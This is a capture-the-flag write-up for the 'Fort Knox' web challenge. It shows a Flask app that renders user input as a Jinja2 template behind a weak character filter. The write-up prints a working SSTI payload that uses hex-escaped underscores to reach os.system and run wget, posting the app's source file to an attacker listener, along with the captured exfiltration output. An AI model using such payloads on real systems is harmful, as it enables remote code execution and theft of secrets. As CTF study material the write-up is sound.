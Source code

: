 # Fort Knox 
>They say the [Fort Knox](http://104.248.237.208:5000/) is impenetrable, but as a friend of mine once said, give me ten brave men and I will conquer it!  
>Are you brave enough!  

This challenge was probably solved by everyone in an unintended way!
By visiting the page and viewing the source, we see the following comment:
```HTML
    <!--Source Code: /static/archive/Source -->
```
We get the application's source code and see this interesting piece of code:
```Python
@app.route("/ask", methods = ["POST"])
def ask():
    question = request.form["q"]
    for c in "._%":
        if c in question:
            return render_template("no.html", err = "no " + c)
    try:
        t = Template(question)
        t.globals = {}
        answer = t.render({
            "history": fort.history(),
            "credit": fort.credit(),
            "trustworthy": fort.trustworthy()
        })
    except:
        return render_template("no.html", err = "bad")
    return render_template("yes.html", answer = answer)
```

So this is jinja2 SSTI without "._%". This whitelist is too permissive to prevent RCE!
As we can see in [Jinja documentation](http://jinja.pocoo.org/docs/2.10/templates/), 

>You can use a dot (.) to access attributes of a variable in addition to the standard Python __getitem__ “subscript” syntax ([]).
>The following lines do the same thing:
>{{ foo.bar }}  
>{{ foo['bar'] }}

So ```[].__class__``` can become ```[]['__class__']``` and because we're dealing with strings, the underscores can become ```\x5f```. So we can get the flag with the following payload:
```
{{[]['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()['\x5f\x5fgetitem\x5f\x5f'](59)()['\x5fmodule']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['system']('wget xx\x2exx\x2exx\x2exx --post-file fort\x2epy')}}
```
"fort.py" file was disclosed from a line of the source code that called ```import fort```!

Result:
```
Listening on [0.0.0.0] (family 0, port 80)
Connection from [104.248.237.208] port 80 [tcp/http] accepted (family 2, sport 51242)
POST / HTTP/1.1
User-Agent: Wget/1.18 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 51.77.158.67
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 865

from flask import Flask, session

SECKEY = "some random key for signing 70657529378630738104827452603621"
FLAG = "ASIS{Kn0cK_knoCk_Wh0_i5_7h3re?_4nee_Ane3,VVh0?_aNee0neYouL1k3!}"
CORRECT_BEHAVIOUR = list(map(int, "34515465413625214253"))
PERFECT_CREDIT = sum([ x for x in range(len(CORRECT_BEHAVIOUR)) ])
```
There was more python code in that file, which hinted that this was an unintended sollution!
